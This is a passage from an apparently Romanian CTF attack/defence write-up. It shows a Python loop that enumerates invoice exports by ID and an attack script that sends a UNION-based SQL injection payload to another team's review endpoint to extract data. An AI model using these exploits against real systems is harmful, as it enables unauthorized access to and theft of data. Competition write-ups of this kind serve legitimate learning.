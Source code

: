 ```py
for id in range(last_id, last_id - 20, -1):
  r = s.get(url + f"invoice/export/{id}")
  print(r.text, flush=True)
```

<a name="lazypeoninn"></a>
## lazypeoninn - A/D

Un exemplu de atac folosit:

```py
#!/Users/adragos/miniconda3/bin/python

import random
import sys
import json

if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} <target_ip/team_id> [flagstore json]")
    sys.exit(1)

ip, team_id = sys.argv[1].split('/') if '/' in sys.argv[1] else (sys.argv[1], None)
flagstore = json.loads(open(sys.argv[2],"r").read() if len(sys.argv) > 2 else "[]")

ip = ip + "3"

import requests


url = "http://"+ip+":5000/review/read?code=%27%20UNION%20SELECT%20ingredients,%201,%201%20FROM%20dish;--%20-"

r = requests.get(url)
print(r.text, flush=True)
```